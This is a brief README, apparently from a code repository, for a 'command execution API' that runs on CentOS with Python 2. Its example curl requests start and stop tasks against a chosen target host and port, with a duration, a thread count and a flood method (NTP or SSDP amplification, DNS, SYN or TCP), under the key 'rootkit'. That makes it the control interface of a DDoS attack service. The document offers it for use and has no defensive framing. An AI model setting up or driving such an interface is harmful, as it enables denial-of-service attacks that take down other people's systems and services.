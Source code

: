 命令执行接口调用

### Env
* Centos 6/7
* Python 2.6/2.7+

### Run
```
# /opt/CmdApi/RunServer
```

### Call Api Example

* Task execution
```
# curl -sd "key=rootkit&host=[IP]&port=[PORT]&time=[time/sec]&thread=[threads]&method=[ntp|ssdp|dns|syn|tcp]&stop=0" http://ServerIp:Port/api
```

* Stop Task
```
# curl -sd "key=rootkit&host=[IP]&port=[PORT]&time=[time/sec]&thread=[threads]&method=[ntp|ssdp|dns|syn|tcp]&stop=1" http://ServerIp:Port/api
```